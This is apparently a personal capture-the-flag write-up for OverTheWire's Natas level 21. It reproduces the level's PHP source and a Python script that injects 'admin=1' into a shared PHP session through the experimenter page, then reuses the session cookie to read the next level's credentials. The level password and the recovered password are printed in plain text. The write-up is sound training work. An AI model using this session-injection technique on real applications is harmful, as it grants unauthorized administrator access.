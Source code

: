 ```yaml
---
title: natas 21 walkthrough
description: over the wire natas 21
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: natas-21 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: natas 21 walkthrough
    order: 30
---
```

## Description
> Username: natas21
> 
> URL:      http://natas21.natas.labs.overthewire.org

### Source Code
http://natas21.natas.labs.overthewire.org/index.php : 
```php
<?php

function print_credentials()
{ 
    if ($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
        print "You are an admin. The credentials for the next level are:<br>";
        print "<pre>Username: natas22\n";
        print "Password: <censored></pre>";
    } else {
        print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
    }
}


session_start();
print_credentials();

```
http://natas21-experimenter.natas.labs.overthewire.org
```php
<?php

session_start();

// if update was submitted, store it
if (array_key_exists("submit", $_REQUEST)) {
    foreach ($_REQUEST as $key => $val) {
        $_SESSION[$key] = $val;
    }
}

if (array_key_exists("debug", $_GET)) {
    print "[DEBUG] Session contents:<br>";
    print_r($_SESSION);
}

// only allow these keys
$validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow");
$form = "";

$form .= '<form action="index.php" method="POST">';
foreach ($validkeys as $key => $defval) {
    $val = $defval;
    if (array_key_exists($key, $_SESSION)) {
        $val = $_SESSION[$key];
    } else {
        $_SESSION[$key] = $val;
    }
    $form .= "$key: <input name='$key' value='$val' /><br>";
}
$form .= '<input type="submit" name="submit" value="Update" />';
$form .= '</form>';

$style = "background-color: " . $_SESSION["bgcolor"] . "; text-align: " . $_SESSION["align"] . "; font-size: " . $_SESSION["fontsize"] . ";";
$example = "<div style='$style'>Hello world!</div>";
```

---
## Progress
### Observation
The experimenter page is definitely vulnerable. However, we need to find a way to make it use to crack the main page.
### Trial
If those two pages share session data. One can inject content into the session via the experimenter page, and using the session ID to retrieve the password from the main page.
### Script
```python
import requests
from bs4 import BeautifulSoup
from requests.auth import HTTPBasicAuth

username = "natas21"
password = "89OWrTkGmiLZLv12JY4tLj2c4FW0xn56"
authentication = HTTPBasicAuth(username, password)

def get_content(response):
    soup = BeautifulSoup(response.text, 'html.parser')
    content = soup.select('#content')
    return content.__str__()

def main():
    main_url = "http://natas21.natas.labs.overthewire.org/index.php"
    vul_url = "http://natas21-experimenter.natas.labs.overthewire.org/index.php"
    response = requests.get(vul_url, auth=authentication)
    sessid_cookie = response.cookies
    sessid_cookie = {"PHPSESSID":response.cookies["PHPSESSID"]}

    response = requests.get(vul_url + "?debug=true&admin=1&submit=Update", 
                             cookies=sessid_cookie, auth=authentication)
    if response.status_code == 200:
        if "admin" not in get_content(response):
            exit()
    
    response = requests.get(main_url, cookies=sessid_cookie, auth=authentication)
    if "You are an admin" in get_content(response):
        print(get_content(response))
    else:
        print("failed")

main()
```
91awVM9oDiUGm33JdzM7RVLBS8bz9n0s

---
## Hint

---
## Solving
### Category
- 
### Techniques
- 

### Tools
- 